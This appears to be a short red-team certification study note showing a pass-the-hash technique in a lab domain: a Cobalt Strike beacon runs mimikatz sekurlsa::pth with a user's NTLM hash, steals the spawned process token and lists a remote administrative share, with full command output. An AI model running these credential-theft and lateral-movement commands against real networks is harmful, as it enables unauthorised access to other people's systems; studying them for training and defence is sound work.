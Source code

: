 
For pass-the-hash, we can simply start an arbitrary process and steal its token manually.

```
beacon> mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe

user	: jking
domain	: DEV
program	: notepad.exe
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  17896
  |  TID  11384
  |  LSA Process is now R/W
  |  LUID 0 ; 8586493 (00000000:008304fd)
  \_ msv1_0   - data copy @ 00000129694D4070 : OK !
  \_ kerberos - data copy @ 00000129694CCD28

beacon> steal_token 17896
[+] Impersonated DEV\bfarmer

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
```


#### ⚠ Opsec




### Properties
---
📆 created   {{29-02-2024}} 11:32
🏷️ tags: #redteam #crto 

---

